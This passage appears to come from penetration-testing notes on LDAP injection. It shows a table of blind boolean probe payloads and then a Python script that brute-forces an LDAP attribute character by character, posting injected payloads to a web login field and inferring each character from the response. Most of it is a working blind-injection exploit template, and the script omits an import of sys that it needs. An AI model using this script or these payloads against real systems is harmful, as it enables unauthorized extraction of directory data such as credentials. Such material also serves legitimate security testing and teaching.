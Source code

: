 ```
*)(ATTRIBUTE=a*) -> False
*)(ATTRIBUTE=b*) -> False
*)(ATTRIBUTE=c*) -> True

*)(ATTRIBUTE=ca*) -> False
*)(ATTRIBUTE=cb*) -> True

...
```  

Again, note that the following Python script is only provided as an example on
how to brute force attributes and should be modified accordingly to the LDAP
injection exploited. In particular, the payload and the web application
expected comportment should be updated.

```python
from __future__ import print_function
import requests
import urllib
import string
import time

URL = '<URL>'
ATTRIBUTE = '<ATTRIBUTE>'

RESERVED_CHAR = ['*', ' ', ',', '+', '\\', '/', '<', '>', ':', ';', '=']

def aggressive_url_encode(string):
    return "".join("%{0:0>2}".format(format(ord(char), "x")) for char in string)

value = ''

is_finished = False
ascii_c = 48

while not is_finished:
  is_finished = True
  while ascii_c < 91:
      c = chr(ascii_c)
      if c in RESERVED_CHAR:
          ascii_c = ascii_c + 1
          continue
      time.sleep(.300)
      payload = '*)(ATTRIBUTE=*))(|(ATTRIBUTE={}{}*'.format(value, c)
      # Payload format
      urlencoded = aggressive_url_encode(payload)
      data = {'inputUsername': urlencoded}
      r = requests.post(URL, data)
      # Change in comportment to check if the LDAP statement evaluate to true: string in / not in response, response status code or length, etc.
      if 'XXX' in r.text:
          is_finished = False
          value = value + c
          sys.stdout.write(c)
          sys.stdout.flush()
          ascii_c = 48
      else:
          ascii_c = ascii_c + 1

print ('{}: {} Length: {}'.format(ATTRIBUTE, value, len(value)))
```
